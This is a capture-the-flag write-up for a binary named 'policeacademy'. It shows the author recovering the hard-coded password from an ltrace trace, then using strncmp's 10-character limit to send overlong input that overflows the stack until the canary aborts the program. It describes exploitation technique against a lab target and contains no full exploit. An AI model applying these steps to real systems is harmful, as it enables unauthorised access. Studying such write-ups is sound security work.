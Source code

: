 notice that stack canaries are enabled and the only functions the binary appears to define are `main` and `print_record`.

upon running the binary for the first time we notice that it expects a password:

```
$ nc 128.199.224.175 13000    
Enter password to authentic yourself : fizbaz
Incorrect password. Closing connection.
```

i recovered the password by running the binary under ltrace, we can see it in the call to strncmp:

```
$ ltrace -s 70 ./policeacademy    
__libc_start_main(0x40099b, 1, 0x7ffcdffd2048, 0x400d10 <unfinished ...>
printf("Enter password to authentic yourself : ")                                   = 39
fflush(0x7f7f5a850620Enter password to authentic yourself : )                                                              = 0
__isoc99_scanf(0x400e41, 0x7ffcdffd1f20, 0, 0x7f7f5a582290fizbaz
)                         = 1
strncmp("fizbaz", "kaiokenx20", 10)                                                 = -5
puts("Incorrect password. Closing connection."Incorrect password. Closing connection.
)                                     = 40
exit(0 <no return ...>
+++ exited (status 0) +++
```

one thing in particular which caught my interest here is that we're using strncmp and its given a length of 10, but our password may be much longer, which means we can enter "kaiokenx20" followed by a long string of characters and the check will still pass! long enough even that we can overwrite the saved return address but the stack cookies catch us before returning to our overwritten addres:

```
$ ./policeacademy 
Enter password to authentic yourself : kaiokenx20AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Enter case number: 

         1) Application_1
         2) Application_2
         3) Application_3
         4) Application_4
         5) Application_5
         6) Application_6
         7) Flag

         Enter choice :- 1

No such record exists. Please verify your choice.

*** stack smashing detected ***: ./policeacademy terminated
[1]    5861 abort      ./policeacademy
```
